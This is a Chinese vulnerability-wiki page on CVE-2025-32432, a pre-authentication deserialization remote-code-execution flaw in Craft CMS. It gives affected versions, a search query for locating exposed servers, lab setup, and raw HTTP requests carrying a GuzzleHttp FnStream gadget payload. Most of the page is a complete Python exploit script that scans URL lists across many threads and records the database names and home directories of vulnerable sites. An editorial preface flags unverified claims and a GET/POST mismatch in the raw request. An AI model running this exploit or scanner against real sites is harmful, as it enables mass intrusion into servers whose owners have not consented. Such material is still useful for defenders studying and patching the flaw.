



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.x&lt;=3.9.14;4.x&lt;=4.14.14;5.x&lt;=5.6.16 branches; preauth endpoint; CSRF token/cookie continuity; compatible gadget and asset context

- **事实待核（1）**：Frontmatter version preserves only3.x while body has3/4/5。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：Text says POST but raw request says GET with JSON body; script correctly uses POST。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Hardcoded assetId11/config assumes suitable data; negative phpinfo test does not prove not vulnerable。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（4）**：Token must match cookie/session; raw example empty Cookie whereas script maintains session。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（5）**：Precise primary advisory/patch/research links retained。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Craft CMS generate-transform 反序列化代码执行漏洞 CVE-2025-32432

## 漏洞描述

Craft CMS 是一个灵活、用户友好的内容管理系统，用于创建自定义的数字网络体验和其他体验。CVE-2025-32432 中，攻击者可构造恶意请求利用 generate-transform 端点触发反序列化，执行任意代码，控制服务器。官方已发布安全更新，建议升级至最新版本。

参考链接：

- https://github.com/craftcms/cms/blob/3.x/CHANGELOG.md#3915---2025-04-10-critical
- https://github.com/craftcms/cms/blob/4.x/CHANGELOG.md#41415---2025-04-10-critical
- https://github.com/craftcms/cms/blob/5.x/CHANGELOG.md#5617---2025-04-10-critical
- https://github.com/craftcms/cms/commit/e1c85441fa47eeb7c688c2053f25419bc0547b47
- https://github.com/craftcms/cms/security/advisories/GHSA-f3gw-9ww9-jmc3
- https://sensepost.com/blog/2025/investigating-an-in-the-wild-campaign-using-rce-in-craftcms/

## 漏洞影响

```
3.0.0-RC1 <= Craft <= 3.9.14
4.0.0-RC1 <= Craft <= 4.14.14
5.0.0-RC1 <= Craft <= 5.6.16
```

## 网络测绘

```
header="X-Powered-By: Craft CMS" || banner="X-Powered-By: Craft CMS"
```

## 环境搭建

参考 [CVE-2024-56145](https://github.com/vulhub/vulhub/tree/master/craftcms/CVE-2024-56145) 漏洞环境，Vulhub 执行以下命令启动一个 CraftCMS 5.5.1.1 服务器：

```
docker-compose up -d
```

服务器启动后，你可以在 `http://your-ip:8088/admin/install` 看到安装页面。请按照说明安装 CraftCMS，默认数据库地址为 `db`，用户名和密码均为 `root`。




## 漏洞复现

访问 `http://your-ip:8088/index.php?p=admin/dashboard`，跟随重定向，获取 `CRAFT_CSRF_TOKEN`：

```
GET /index.php?p=admin/dashboard HTTP/1.1
Host: your-ip:8088
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```




将上一步获取的 `CRAFT_CSRF_TOKEN` 填入 `X-CSRF-Token` 头部，向 `http://your-ip:8088/index.php?p=admin/actions/assets/generate-transform` 发送带有 payload 的 POST 请求：

```
GET /index.php?p=admin/actions/assets/generate-transform HTTP/1.1
Host: your-ip:8088
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-CSRF-Token: _W7rdrj_Wb5GVxnxxxxWBFQej5zhNNyQN65ikAY=

{"assetId": 11, "handle": {"width": 123, "height": 123, "as session": {"class": "craft\\behaviors\\FieldLayoutBehavior", "__class": "GuzzleHttp\\Psr7\\FnStream", "__construct()": [[]], "_fn_close": "phpinfo"}}}
```

触发反序列化，通过 `GuzzleHttp\Psr7\FnStream` 类执行任意代码：




## 漏洞 POC

```python
# https://github.com/Sachinart/CVE-2025-32432
#!/usr/bin/env python3
"""
CraftCMS CVE-2025-32432 Remote Code Execution Exploit By Chirag Artani
This script automates the exploitation of the pre-auth RCE vulnerability in CraftCMS 4.x and 5.x.
It extracts CSRF tokens and attempts RCE via the asset transform generation endpoint.

The script extracts both CRAFT_DB_DATABASE and HOME directory values to verify successful exploitation.

Usage:
    Single target:
        python3 craftcms_rce.py -u example.com

    Multiple targets:
        python3 craftcms_rce.py -f urls.txt -t 10
"""

import argparse
import concurrent.futures
import re
import requests
import urllib3
import sys
from bs4 import BeautifulSoup
from urllib.parse import urlparse

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class CraftCMSExploit:
    def __init__(self, url):
        """Initialize the exploit with the target URL."""
        self.url = url if url.endswith('/') else url + '/'
        self.session = requests.Session()
        self.session.verify = False
        self.session.timeout = 15
        self.session.headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36'
        }

    def normalize_url(self, url):
        """Ensure URL has a scheme."""
        if not url.startswith('http'):
            url = 'http://' + url
        return url

    def extract_csrf_token(self):
        """Get the CSRF token from the dashboard page."""
        try:
            dashboard_url = self.url + "index.php?p=admin/dashboard"
            response = self.session.get(dashboard_url, timeout=10)

            if response.status_code == 200:
                # Parse the HTML response
                soup = BeautifulSoup(response.text, 'html.parser')
                csrf_input = soup.find('input', {'name': 'CRAFT_CSRF_TOKEN'})

                if csrf_input and csrf_input.get('value'):
                    csrf_token = csrf_input.get('value')
                    return csrf_token
                else:
                    # Try regex as fallback
                    match = re.search(r'name="CRAFT_CSRF_TOKEN"\s+value="([^"]+)"', response.text)
                    if match:
                        return match.group(1)

            return None
        except Exception as e:
            print(f"Error extracting CSRF token from {self.url}: {str(e)}")
            return None

    def exploit(self):
        """Attempt to exploit the vulnerability and return results."""
        result = {
            'url': self.url,
            'vulnerable': False,
            'db_name': None,
            'home_dir': None,
            'error': None
        }

        try:
            # Extract CSRF token
            csrf_token = self.extract_csrf_token()
            if not csrf_token:
                result['error'] = "Failed to extract CSRF token"
                return result

            # Prepare exploit request
            exploit_url = self.url + "index.php?p=admin/actions/assets/generate-transform"
            headers = {
                'Content-Type': 'application/json',
                'X-CSRF-Token': csrf_token
            }

            payload = {
                "assetId": 11,
                "handle": {
                    "width": 123,
                    "height": 123,
                    "as session": {
                        "class": "craft\\behaviors\\FieldLayoutBehavior",
                        "__class": "GuzzleHttp\\Psr7\\FnStream",
                        "__construct()": [[]],
                        "_fn_close": "phpinfo"
                    }
                }
            }

            response = self.session.post(exploit_url, json=payload, headers=headers, timeout=15)

            # Check if the exploit succeeded
            if 'PHP Version' in response.text and 'PHP License' in response.text:
                result['vulnerable'] = True

                # Extract CRAFT_DB_DATABASE value
                db_match = re.search(r'<tr><td class="e">CRAFT_DB_DATABASE\s*</td><td class="v">([^<]+)</td></tr>', response.text)
                if db_match:
                    result['db_name'] = db_match.group(1).strip()

                # Extract HOME directory value
                home_match = re.search(r'<tr><td class="e">\$_SERVER\[\'HOME\'\]</td><td class="v">([^<]+)</td></tr>', response.text)
                if home_match:
                    result['home_dir'] = home_match.group(1).strip()

                # If HOME is not found, try to find it in a different format
                if not result['home_dir']:
                    alt_home_match = re.search(r'<tr><td class="e">HOME</td><td class="v">([^<]+)</td></tr>', response.text)
                    if alt_home_match:
                        result['home_dir'] = alt_home_match.group(1).strip()

            return result

        except Exception as e:
            result['error'] = str(e)
            return result

def process_url(url):
    """Process a single URL."""
    try:
        # Normalize URL
        if not url.startswith('http'):
            url = 'http://' + url

        print(f"[*] Testing {url}")
        exploit = CraftCMSExploit(url)
        result = exploit.exploit()

        if result['vulnerable']:
            print(f"[+] VULNERABLE: {url}")
            print(f"    CRAFT_DB_DATABASE: {result['db_name'] or 'Not found'}")
            print(f"    HOME Directory: {result['home_dir'] or 'Not found'}")
            with open('vulnerable.txt', 'a') as f:
                f.write(f"{url},{result['db_name'] or 'Not found'},{result['home_dir'] or 'Not found'}\n")
        elif result['error']:
            print(f"[-] ERROR ({url}): {result['error']}")
        else:
            print(f"[-] Not vulnerable: {url}")

        return result
    except Exception as e:
        print(f"[-] Error processing {url}: {str(e)}")
        return {'url': url, 'vulnerable': False, 'error': str(e)}

def main():
    parser = argparse.ArgumentParser(description='CraftCMS CVE-2025-32432 RCE Exploit')
    group = parser.add_mutually_exclusive_group(required=True)
    group.add_argument('-f', '--file', help='File containing URLs to test')
    group.add_argument('-u', '--url', help='Single URL to test')
    parser.add_argument('-t', '--threads', type=int, default=5, help='Number of threads (default: 5)')
    args = parser.parse_args()

    urls = []

    # Handle single URL mode
    if args.url:
        urls = [args.url]
        print(f"[*] Testing single target: {args.url}")
    # Handle file mode
    elif args.file:
        try:
            with open(args.file, 'r') as f:
                urls = [line.strip() for line in f if line.strip()]
            print(f"[*] Loaded {len(urls)} URLs from {args.file}")
        except Exception as e:
            print(f"Error reading URL file: {str(e)}")
            sys.exit(1)

    print(f"[*] Starting scan with {args.threads} threads")

    # Create results file for vulnerable sites
    with open('vulnerable.txt', 'w') as f:
        f.write("url,craft_db_database,home_directory\n")

    # Process URLs using thread pool
    results = []
    with concurrent.futures.ThreadPoolExecutor(max_workers=args.threads) as executor:
        results = list(executor.map(process_url, urls))

    # Summary
    vulnerable_count = sum(1 for r in results if r['vulnerable'])
    print("\n=== SCAN SUMMARY ===")
    print(f"Total URLs scanned: {len(urls)}")
    print(f"Vulnerable sites: {vulnerable_count}")
    print(f"Detailed results saved to vulnerable.txt")

if __name__ == "__main__":
    main()

```

## 漏洞修复

升级至安全版本及其以上。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
